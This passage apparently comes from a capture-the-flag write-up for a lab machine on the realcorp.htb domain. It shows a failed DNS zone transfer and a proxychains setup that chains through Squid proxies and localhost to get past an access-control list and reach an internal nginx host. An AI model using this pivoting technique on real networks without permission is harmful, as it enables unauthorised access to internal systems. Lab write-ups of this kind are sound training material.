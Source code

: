 * Subdomain: `srv01.realcorp.htb`
* Email: `j.nakazawa@realcorp.htb`
* Username: `j.nakazawa`

Because [zone transfer](https://en.wikipedia.org/wiki/DNS_zone_transfer) in not available
```bash
❯ dig axfr realcorp.htb @10.10.10.224

; <<>> DiG 9.16.15-Debian <<>> axfr realcorp.htb @10.10.10.224
;; global options: +cmd
; Transfer failed.
```

we can use this proxy to access internal proxy.

Setup `proxychains` to send traffic through the squid proxy
and `/etc/proxychains.conf`
```bash
... [snip] ...
[ProxyList]
# add proxy here ...
#tentacle
http	10.10.10.224	3128    #Go through the squid proxy
http	127.0.0.1   3128        #go through localhost to bypass ACL
http    10.197.243.77   3128    #connect to internal proxy
```

* Access control list (ACL) files are text files containing lists that define who can access Proxy Server resources. By default, the Proxy Server uses one ACL file that contains all of the lists for access to your server.
* In this case proxy server restrict external IP to access internal host but localhost allowed.

and now we can access to internal host `10.197.243.31`
```bash
❯ proxychains curl -I http://10.197.243.31/
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:80  ...  OK
HTTP/1.1 200 OK
Server: nginx/1.14.1
Date: Fri, 11 Jun 2021 04:55:25 GMT
Content-Type: text/html
Content-Length: 4057
Last-Modified: Mon, 07 Oct 2019 21:16:24 GMT
Connection: keep-alive
ETag: "5d9bab28-fd9"
Accept-Ranges: bytes
```

port 80 on internal host is running nginx. *Run `proxychains firefox` command to run firefox browser with proxychains*
